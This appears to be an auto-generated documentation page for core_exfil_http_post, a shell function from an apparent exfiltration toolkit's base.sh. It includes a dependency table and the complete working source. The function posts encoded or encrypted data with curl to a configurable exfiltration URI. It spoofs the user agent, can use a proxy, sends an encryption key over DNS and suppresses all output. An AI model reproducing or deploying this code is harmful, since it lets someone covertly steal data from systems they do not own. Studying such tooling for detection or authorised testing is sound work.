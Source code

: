 # Exfil Http Post

### Purpose
core_exfil_http_post function implementation from base.sh.

### Dependencies
| Type | Name | Value |
|------|------|-------|
| Global Variable | `CMD_CURL` | "curl" |
| Global Variable | `ENCODING_TYPE` | "none" |
| Global Variable | `ENCRYPT` | "none" |
| Global Variable | `ENCRYPTION_TYPE` | "none" |
| Global Variable | `ENCRYPT_KEY` | "" |
| Global Variable | `EXFIL_URI` | "" |
| Global Variable | `JOB_ID` | "" |
| Function | `core_exfil_http_post()` | For exfil http post |
| Function | `core_extract_domain()` | For extract domain |
| Function | `core_generate_json_payload()` | For generate json payload |
| Function | `core_normalize_uri()` | For normalize uri |
| Function | `core_prepare_exfil_data()` | For prepare exfil data |
| Function | `core_send_key_via_dns()` | For send key via dns |
| Function | `core_url_safe_encode()` | For url safe encode |

<details>

```shell
core_exfil_http_post() {
local data="$1"
    local full_uri=$(core_normalize_uri "$EXFIL_URI")
    local proxy_arg=$(core_prepare_proxy_arg)
    local user_agent=$(core_get_user_agent)
    local exfil_data=$(core_prepare_exfil_data "$data")
    local encoded_data=$(core_url_safe_encode "$exfil_data")
    
    if [ "$ENCRYPT" != "none" ] && [ -n "$ENCRYPT_KEY" ]; then
        # For encrypted data, we need to handle the key
        local domain=$(core_extract_domain "$full_uri")
        local encrypted_key=$(core_send_key_via_dns "$domain")
        local json_payload=$(core_generate_json_payload "$encoded_data" "$encrypted_key")
        
        # Execute POST with JSON payload
                    $CMD_CURL -s $proxy_arg $CMD_CURL_SECURITY $CMD_CURL_TIMEOUT \
                        -X POST \
                        -A "$user_agent" \
            -H "Content-Type: application/json" \
                -H "X-Job-ID: $JOB_ID" \
                        -H "X-Encryption: $ENCRYPTION_TYPE" \
                        -H "X-Encoding: $ENCODING_TYPE" \
                        --data-binary "$json_payload" \
                        "$full_uri" > /dev/null 2>&1
                else
        # For unencrypted data, simpler payload
        local content_type=$(core_get_content_type)
        
                    $CMD_CURL -s $proxy_arg $CMD_CURL_SECURITY $CMD_CURL_TIMEOUT \
                        -X POST \
                        -A "$user_agent" \
                        -H "Content-Type: $content_type" \
                        -H "X-Job-ID: $JOB_ID" \
                        -H "X-Encoding: $ENCODING_TYPE" \
                        --data-binary "$encoded_data" \
                        "$full_uri" > /dev/null 2>&1
                fi
    
    return $?
}
```

</details> 

